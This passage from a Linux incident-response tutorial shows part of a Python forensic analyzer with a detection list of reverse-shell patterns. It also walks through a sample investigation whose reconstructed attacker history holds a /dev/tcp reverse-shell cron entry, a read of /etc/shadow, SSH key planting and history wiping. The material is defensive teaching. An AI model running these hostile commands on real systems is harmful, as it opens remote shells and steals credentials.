                            "command": line[:200],
                            "category": category,
                            "matched_pattern": pattern,
                        })
                        break

        return results

    def check_crontabs(self) -> Dict:
        """Check system crontabs for suspicious entries"""
        results = {"system_crontab": {}, "user_crontabs": {}, "cron_dirs": {}}
        suspicious_patterns = [
            r"/dev/tcp/",
            r"nc ",
            r"ncat",
            r"socat",
            r"curl.*\|.*bash",
            r"wget.*\|.*bash",
            r"bash -i",
        ]

        # /etc/crontab
        etc_cron = Path("/etc/crontab")
        if etc_cron.exists():
            with open(etc_cron, "r") as f:
                content = f.read()
            results["system_crontab"] = {
                "exists": True,
                "suspicious": any(re.search(p, content) for p in suspicious_patterns),
                "size": etc_cron.stat().st_size,
                "modified": datetime.fromtimestamp(etc_cron.stat().st_mtime).isoformat(),
            }

        # /etc/cron.d/*
        cron_d = Path("/etc/cron.d")
        if cron_d.exists():
            entries = []
            for f in cron_d.iterdir():
                if f.is_file():
                    entries.append({
                        "name": f.name,
                        "size": f.stat().st_size,
                        "modified": datetime.fromtimestamp(f.stat().st_mtime).isoformat(),
                    })
            results["cron_dirs"]["/etc/cron.d"] = entries

        return results

    def check_systemd_timers(self) -> Dict:
        """Check for suspicious systemd timers"""
        results = {"suspicious_timers": [], "all_timers": []}
        try:
            output = subprocess.check_output(
                ["systemctl", "list-timers", "--all", "--no-pager"],
                stderr=subprocess.DEVNULL,
                timeout=30,
            ).decode()
            for line in output.split("\n")[1:]:  # Skip header
                if "timer" in line.lower() or ".timer" in line:
                    results["all_timers"].append(line.strip())
        except (subprocess.CalledProcessError, FileNotFoundError):
            pass
        return results

    def check_network_connections(self) -> Dict:
        """Check for suspicious network connections"""
        results = {"listening_ports": [], "established": [], "suspicious": []}
        try:
            output = subprocess.check_output(
                ["ss", "-antp"], stderr=subprocess.DEVNULL, timeout=30
            ).decode()
            for line in output.split("\n")[1:]:
                if "ESTAB" in line:
                    parts = line.split()
                    if len(parts) >= 5:
                        results["established"].append({
                            "local": parts[3],
                            "remote": parts[4],
                            "process": parts[-1] if len(parts) > 5 else "unknown",
                        })
                elif "LISTEN" in line:
                    parts = line.split()
                    if len(parts) >= 4:
                        results["listening_ports"].append({
                            "port": parts[3],
                            "process": parts[-1] if len(parts) > 5 else "unknown",
                        })
        except (subprocess.CalledProcessError, FileNotFoundError):
            pass
        return results

    def generate_report(self) -> Dict:
        """Generate comprehensive forensic report"""
        auth_results = self.analyze_auth_log()
        root_history = self.analyze_bash_history("root")
        crontab_results = self.check_crontabs()
        timer_results = self.check_systemd_timers()
        network_results = self.check_network_connections()

        report = {
            "timestamp": datetime.now().isoformat(),
            "hostname": os.uname().nodename,
            "phase_1_auth_log": auth_results,
            "phase_3_bash_history": {"root": root_history},
            "phase_4_persistence": {
                "crontabs": crontab_results,
                "systemd_timers": timer_results,
            },
            "phase_5_network": network_results,
            "risk_score": self._calculate_risk_score(
                auth_results, root_history, crontab_results
            ),
        }
        return report

    def _calculate_risk_score(self, auth, history, crontabs) -> Dict:
        score = 0
        reasons = []

        if auth.get("bruteforce_ips"):
            score += 20
            reasons.append(f"Brute-force detected: {len(auth['bruteforce_ips'])} IPs")
        if auth.get("accepted_ssh"):
            accepted_ips = set(e["ip"] for e in auth["accepted_ssh"])
            if auth.get("attacker_ips"):
                overlap = accepted_ips & auth["attacker_ips"]
                if overlap:
                    score += 30
                    reasons.append(f"SSH compromise confirmed: {overlap}")

        if history.get("suspicious"):
            score += len(history["suspicious"]) * 5
            cats = Counter(e["category"] for e in history["suspicious"])
            reasons.append(f"Suspicious commands: {dict(cats)}")

        if history.get("cleared"):
            score += 25
            reasons.append("Bash history cleared")

        if crontabs.get("system_crontab", {}).get("suspicious"):
            score += 25
            reasons.append("Suspicious crontab entries")

        return {
            "score": min(score, 100),
            "severity": "CRITICAL" if score >= 75 else "HIGH" if score >= 50 else "MEDIUM" if score >= 25 else "LOW",
            "reasons": reasons,
        }


# CLI Usage
if __name__ == "__main__":
    analyzer = LinuxForensicAnalyzer()
    report = analyzer.generate_report()
    print(json.dumps(report, indent=2, default=str))

    with open("/tmp/linux_forensic_report.json", "w") as f:
        json.dump(report, f, indent=2, default=str)
    print(f"\nReport saved to /tmp/linux_forensic_report.json")
    print(f"Risk Score: {report['risk_score']['score']}/100 ({report['risk_score']['severity']})")
```


## 🕵️ Practical Investigation Scenario

> 💡 **Background**: You are responding to an alert from your EDR indicating a Linux web server (IP 10.0.0.10) made an outbound connection to a known malicious IP (45.33.32.156). Walk through each phase.

### Scenario Walkthrough

```bash
# === PHASE 1: auth.log ===
sudo grep '45.33.32.156' /var/log/auth.log

# Output:
# Nov  4 09:10:22 webserver sshd[2345]: Failed password for root from 45.33.32.156
# Nov  4 09:10:25 webserver sshd[2345]: Failed password for root from 45.33.32.156
# ... (50 failed attempts)
# Nov  4 09:15:22 webserver sshd[2456]: Accepted password for john from 45.33.32.156
# Nov  4 09:15:30 webserver sudo: john : TTY=pts/0 ; COMMAND=/usr/bin/su -
# Nov  4 09:16:00 webserver useradd[2501]: new user: name=syscheck

# FINDING: SSH compromise from 45.33.32.156, escalation to root, backdoor user "syscheck"

# === PHASE 2: last / lastb ===
sudo last -i | grep 45.33.32.156
# john     pts/0  45.33.32.156  Tue Nov  4 09:15 - 09:20  (00:05)

sudo lastb -i | grep 45.33.32.156 | wc -l
# 47 failed attempts before success

# FINDING: Brute force succeeded (47 fails then 1 success)

# === PHASE 3: .bash_history ===
sudo cat /home/john/.bash_history | tail -30

# whoami
# id
# uname -a
# sudo su -
# cat /etc/shadow
# useradd syscheck
# echo 'ssh-rsa AAAAB3NzaC1yc2E...' >> /root/.ssh/authorized_keys
# echo '* * * * * /bin/bash -i >& /dev/tcp/45.33.32.156/8080 0>&1' | crontab -
# history -c
# rm -f ~/.bash_history

# FINDING: Full attack chain confirmed - recon, priv esc, credential access,
# backdoor user, SSH key persistence, cron persistence, cover tracks

# === PHASE 4: Persistence ===
sudo crontab -l -u root
# * * * * * /bin/bash -i >& /dev/tcp/45.33.32.156/8080 0>&1

sudo cat /root/.ssh/authorized_keys
# ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC... attacker@evil

# FINDING: Two persistence mechanisms found (cron + SSH key)

# === PHASE 5: Additional Artifacts ===
sudo ss -antp | grep ESTAB
# ESTAB 0 0 10.0.0.10:54321 45.33.32.156:8080 users:(("bash",pid=3124,fd=3))

sudo lsof -i -nP | grep ESTABLISHED
# bash 3124 root 3u IPv4 54321->45.33.32.156:8080 (ESTABLISHED)

ps aux | grep syscheck
# syscheck  3214  0.0  0.1  12345  1234 ?        S    09:16   0:00 /bin/bash

# FINDING: Active reverse shell established. Backdoor user logged in.
```

### Attack Timeline Reconstructed

| Time | Event | Phase |
|------|-------|-------|
| 09:10:22 | Brute force begins (45.33.32.156) | Phase 1 |
| 09:15:22 | Successful SSH login as `john` | Phase 1, 2 |
| 09:15:30 | `sudo su -` to root | Phase 3 |
| 09:15:45 | `cat /etc/shadow` — credential harvesting | Phase 3 |
| 09:16:00 | `useradd syscheck` — backdoor user | Phase 1, 3 |
| 09:16:15 | SSH key planted in `/root/.ssh/authorized_keys` | Phase 4 |
| 09:16:30 | Cron persistence (reverse shell every minute) | Phase 4 |
| 09:16:45 | History cleared | Phase 3 |
| 09:17:00 | Active reverse shell established | Phase 5 |
| 10:00:00 | EDR alert triggers investigation | N/A |

## 📋 Linux Forensic Investigation Checklist

## Pre-Investigation
- [ ] Secure the system (disconnect network if active compromise)
- [ ] Capture memory dump (if possible, before shutdown)
- [ ] Capture disk image (forensic copy using dd or guymager)
- [ ] Record live data before shutdown (ps, ss, lsof, etc.)

## Phase 1: Authentication Logs
- [ ] Check `/var/log/auth.log` (Debian/Ubuntu) or `/var/log/secure` (RHEL/CentOS)
- [ ] Count failed vs. successful SSH attempts
- [ ] Identify brute-force IPs (`sort | uniq -c | sort -nr`)
- [ ] List all sudo commands executed
- [ ] Check for new user accounts (`useradd`, `adduser`, `new user`)
- [ ] Check for password changes (`passwd`)
- [ ] Check for group modifications (`usermod -aG`, `gpasswd`)
- [ ] Correlate timestamps with incident window

## Phase 2: Login History
- [ ] Run `last` to see successful logins
- [ ] Run `lastb` to see failed logins
- [ ] Run `last -i` to avoid DNS resolution
- [ ] Compare users in `last` against known user list
- [ ] Check for unknown IPs in login records
- [ ] Check for after-hours or weekend logins
- [ ] Check for short sessions following many failures
- [ ] Verify wtmp/btmp have not been cleared

## Phase 3: Bash History
- [ ] Check each user's `~/.bash_history`
- [ ] Check `/root/.bash_history`
- [ ] Search for reverse shells (`bash -i`, `/dev/tcp`, `nc -e`)
- [ ] Search for privilege escalation (`sudo`, `su`, exploits)
- [ ] Search for user/backdoor creation
- [ ] Search for SSH key installations
- [ ] Search for cron/systemd persistence
- [ ] Search for data exfiltration (`scp`, `rsync`, `curl POST`)
- [ ] Search for tool downloads (`wget`, `curl`, `git clone`)
- [ ] Search for reconnaissance (`whoami`, `id`, `uname`, `ps`)
- [ ] Check if history was cleared (`history -c`, `rm`)
- [ ] Check if history was symlinked (`ln -sf /dev/null`)

## Phase 4: Persistence Mechanisms
- [ ] Check `crontab -l` for all users
- [ ] Check `/etc/crontab`
- [ ] Check `/etc/cron.d/*`
- [ ] Check `/etc/cron.hourly/`, `/etc/cron.daily/`, etc.
- [ ] Check `/var/spool/cron/crontabs/`
- [ ] Run `systemctl list-timers --all`
- [ ] Check `/etc/systemd/system/*.timer` and `*.service`
- [ ] Check `/usr/lib/systemd/system/*.timer` and `*.service`
- [ ] Check all `~/.ssh/authorized_keys` files
- [ ] Check `/root/.ssh/authorized_keys`
- [ ] Check `/etc/ssh/sshd_config` for modified settings
- [ ] Check `/etc/rc.local` for boot persistence
- [ ] Check `/etc/init.d/` for startup scripts
- [ ] Check `~/.bashrc`, `~/.profile`, `/etc/bash.bashrc`
- [ ] Check `~/.bash_logout` for logout persistence
- [ ] Check `LD_PRELOAD` environment variable
- [ ] Check for suspicious kernel modules (`lsmod`)
- [ ] Check for `at` jobs (`atq`)
- [ ] Check recently modified files (`find /etc -mtime -7`)

## Phase 5: System-Wide Artifacts
- [ ] Check `/var/log/syslog` for anomalies
- [ ] Check `/var/log/dpkg.log` for unexpected installs
- [ ] Check `/var/log/kern.log` for kernel module loads
- [ ] Run `lsof -i -nP` for network connections
- [ ] Run `lsof +L1` for deleted-but-open files
- [ ] Run `ss -antp` for all TCP connections
- [ ] Run `ss -tlnp` for listening services
- [ ] Run `ps aux` and look for suspicious processes
- [ ] Sort processes by CPU (`--sort=-%cpu`) to find miners
- [ ] Look for processes running from `/tmp`
- [ ] Look for hidden processes (in `/proc` but not in `ps`)
- [ ] Check for masqueraded process names
- [ ] Check `/etc/hosts` for malicious entries
- [ ] Check `/etc/resolv.conf` for DNS tampering
- [ ] Check `/etc/ld.so.preload` for library injection
- [ ] Run `rkhunter` or `chkrootkit` if available

## Reporting
- [ ] Document all findings with timestamps
- [ ] Generate timeline of attacker activity
- [ ] Extract IOCs (IPs, domains, hashes, file paths)
- [ ] Identify compromised accounts
- [ ] Identify all persistence mechanisms
- [ ] Assess data exfiltration potential
- [ ] Recommend containment steps
- [ ] Recommend remediation steps
- [ ] Recommend monitoring rules for future detection

## 📊 Common Attacker Techniques & What to Look For

| ATT&CK Technique | MITRE ID | Linux Indicator | Log Source |
|-----------------|----------|----------------|------------|
| **Brute Force** | T1110 | Many `Failed password` entries | auth.log, lastb |
| **Valid Accounts** | T1078 | `Accepted` from unknown IP | auth.log, last |
| **SSH Hijacking** | T1563 | SSH agent forwarding, SSH session reuse | auth.log, bash_history |
| **Exploit Public-Facing App** | T1190 | Service crash, outbound reverse shell | syslog, bash_history |
| **Privilege Escalation** | T1068 | `sudo`, `su`, exploit binaries | auth.log, bash_history |
| **Create Account** | T1136 | `useradd`, `adduser`, `/etc/passwd` modifications | auth.log, bash_history |
| **Account Manipulation** | T1098 | New SSH keys in `authorized_keys` | bash_history, file audit |
| **Scheduled Task/Job** | T1053 | Crontab entries, systemd timers | crontab -l, systemctl |
| **Systemd Service** | T1543.002 | New `.service` files in `/etc/systemd/system/` | systemctl, file audit |
| **Boot or Logon Autostart** | T1547 | `rc.local`, `init.d` scripts | file audit |
| **Data Exfiltration** | T1048 | `scp`, `rsync`, `curl POST`, `nc` to external IP | bash_history, ss |
| **Ingress Tool Transfer** | T1105 | `wget`, `curl`, `git clone`, `scp` downloads | bash_history |
| **Command & Control** | T1071 | Reverse shell, beaconing, persistent outbound conns | ss, lsof, ps |
| **File Deletion** | T1070.004 | `rm`, `shred` on logs and history | bash_history |
| **Indicator Removal** | T1070 | Log clearing, `history -c`, `ln -sf /dev/null .bash_history` | bash_history, log gaps |
| **Hide Artifacts** | T1564 | Hidden files (`.name`), hidden processes, rootkits | ls -la, ps, lsmod |
| **Rootkit** | T1014 | Suspicious kernel modules, LD_PRELOAD, `find / -name "*.ko"` | lsmod, dmesg, kern.log |
| **Discovery (Recon)** | T1082 | `uname -a`, `hostname`, `id`, `whoami`, `ifconfig` | bash_history |

## 🎯 Conclusion

Linux endpoint forensics requires a systematic, multi-phase approach:

1. **Phase 1 — auth.log**: Identify how the attacker gained access (brute force, compromised creds, exploit) through authentication event analysis
2. **Phase 2 — last/lastb**: Reconstruct the login timeline and identify the attacker IP and compromised accounts
3. **Phase 3 — .bash_history**: Extract the complete attack chain — every command the attacker ran, from recon to exfiltration
4. **Phase 4 — Persistence**: Find all backdoors, cron jobs, systemd timers, SSH keys, and startup scripts that allow re-entry
5. **Phase 5 — System Artifacts**: Correlate findings with syslog, network connections, running processes, and open files

By combining manual CLI investigation with automated Python analysis, you can efficiently triage compromised Linux systems, produce a defensible forensic timeline, and extract actionable IOCs for containment and remediation.

> ⚠️ **Final Warning**: Always collect live evidence before shutting down or rebooting a compromised Linux system. Memory evidence (`/proc`, running processes, network connections) is lost on shutdown. After collection, preserve the disk image write-protected and hash-verified before analysis.
